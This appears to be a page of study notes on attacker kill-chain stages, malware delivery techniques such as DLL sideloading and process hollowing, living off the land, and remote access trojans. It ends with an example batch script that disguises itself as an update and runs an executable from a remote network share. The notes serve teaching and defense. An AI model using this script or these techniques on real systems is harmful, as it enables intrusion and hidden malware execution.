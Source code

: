## Actions on Objective  

Once the attacker has spread his footprint on your network and they've established a stronghold, he can then transition into the "Action on Objectives" Phase. On thi phase, the attackers can then will execute their primary objectives.

## Concealment 

Final step of the attack. This will help the threat actor prolong unauthorized access to the system, which can be done by hiding tracks, erasing log files, or hiding any evidence.

## Malware Delivery 

### Common Deployment Techniques 

Common techniques to deploy malicious code:

- **Code Injection**
    - Inserts malicious code into a legitimate process's address space to execute under its context.

- **DLL Sideloading**
    - Loads a malicious DLL by placing it in a directory where a legitimate application will mistakenly load it.

- **DLL Injection**
    - Forces a running process to load a malicious DLL, enabling the attacker to control the process.

- **Masquerading**
    - Disguises malicious files or processes as legitimate ones to avoid detection.

- **Process Hollowing**
    - Replaces the code of a legitimate process with malicious code while the process is running, allowing the attacker to execute their code under the guise of the legitimate process.


### Living off the Land 

A strategy adopted by many Advanced Persistent Threats (APTs) and criminal organizations.

- Threat actors exploit standard system tools to perform intrusions.
- Example: manipulating powershell to conduct malicious activities.


## Remote Access Trojan (RAT)

A Remote Access Trojan (RAT) is malware that gives an attacker remote control over a victim’s computer. It can silently execute commands, steal data, install other malware, or spy on user activity.

- Earliest version is a testris game which infected with the trojan.
- The game is installed into floppy disks and share between friends.

As an example, the script below shows suspicious behavior often linked to RATs:

```
## Hides command output from the user
@echo off

## Disguises the script as a normal maintenance task
rem Update system components

## Connects to an external network share without user approval
net use Y: \\192.168.45.100\update_repo /user:update_agent /p:yes

## Runs a potentially malicious executable from the network share
Y:\utilities\update_sync.exe

## Removes the mapped drive to hide activity
```